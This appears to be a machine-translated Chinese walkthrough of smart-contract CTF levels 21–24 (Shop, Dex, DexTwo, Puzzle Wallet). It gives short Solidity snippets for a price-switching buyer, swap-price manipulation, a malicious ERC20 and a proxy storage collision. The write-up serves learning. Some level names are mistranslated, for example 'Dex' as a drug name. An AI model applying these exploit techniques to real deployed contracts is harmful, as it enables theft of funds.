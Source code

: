 **#21 车间解决方案**

1.  `view`函数被限制为只能读取和返回值，但是我们可以滥用`Shop`契约上的`isSold`状态改变，在`isSold`改变之前，我们返回高值，在它改变之后，我们返回低价。

```
function price() external view returns (uint) {
        if (shop.isSold()) {
            return 10;
        } else {
            return 10000;
        }
    }
```

这可能是因为在我们分配新的`price`值之前`isSold`发生了变化。

```
if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
```

**#22 地塞米松溶液**

1.  为了滥用这个指标，我们可以注意到，通过在令牌 1 和令牌 2 之间摇摆交易，可以滥用和操纵`getSwapPrice`,直到其中一个令牌完全耗尽。

```
function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

**#23 地塞米松溶液**

1.  `DexTwo`合同不限制可以`swap`的 ERC20 对。所以我们可以创建恶意的 ERC20，发送流动性到`DexTwo`地址，给`allowance`给它。
2.  我们可以用这个恶意的 ERC 20`swap``token1`和`token2`。

**#24 难题钱包解决方案**

1.  为了解决这个挑战，你必须从[这个资源](https://docs.openzeppelin.com/contracts/3.x/api/proxy#UpgradeableProxy)中理解代理契约的概念。
2.  代理契约负责存储和委托调用逻辑或实现契约，代理和实现契约的存储指针必须指向相同的信息。但是您可以看到在`PuzzleProxy`和`PuzzleWallet`中，存储布局引用了不同的内容。

储存在`PuzzleProxy`:

```
contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;
..
    }
```

在`PuzzleWallet`的存储:

```
contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;
    ..
    }
```
